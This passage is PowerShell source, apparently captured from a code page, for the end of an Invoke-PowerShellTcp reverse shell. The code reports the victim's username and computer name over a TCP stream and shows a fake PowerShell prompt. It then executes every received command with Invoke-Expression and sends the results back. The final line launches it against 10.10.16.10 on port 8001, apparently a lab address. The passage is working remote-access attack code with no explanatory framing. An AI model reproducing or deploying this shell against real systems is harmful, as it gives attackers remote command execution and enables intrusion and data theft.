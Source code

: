 ```bash

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 8001
```
